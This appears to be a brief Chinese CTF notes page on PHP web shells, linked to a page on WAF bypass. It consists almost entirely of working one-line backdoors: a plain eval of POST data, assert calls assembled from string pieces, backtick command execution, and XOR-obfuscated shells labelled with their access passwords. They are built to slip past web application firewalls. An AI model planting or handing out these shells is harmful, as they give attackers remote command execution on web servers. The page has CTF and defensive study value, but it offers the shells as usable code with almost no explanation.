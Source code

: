 - ```php
  <?php eval($_POST['data']);?>
  
  @$A='Acc';$p='_';$o='PO';$s='S';$t='T';$a='as';$b='sert';$Acc=$a.$b;@${$A}(${$p.$o.$s.$t}['s']);
  
  $poc="a#s#s#e#r#t"; $poc_1=explode("#",$poc); $poc_2=$poc_1[0].$poc_1[1].$poc_1[2].$poc_1[3].$poc_1[4].$poc_1[5]; $poc_2($_GET['s'])
  
  <?=`$_POST[data]`?>
  
  # ↓ 真·一句话 POST  密码data
  ('([([@@'^'["[/%-')(${'"-/(/'^'}}`{{'}['@^^^'^'$?*?']);
  
  # 密码123
  <?php $a='666666666666966'^'UDSWBSiPCXUBPYX';$a('',('L111TLL111811118TPG8LLLLT1LTT1G118TT'^'1TGP8dhnctidtbecebteewcctS5t9P5GTVee'));?>
  
  ```
- 构建技巧： [[CTFWEB/PHP/WAF绕过]]
-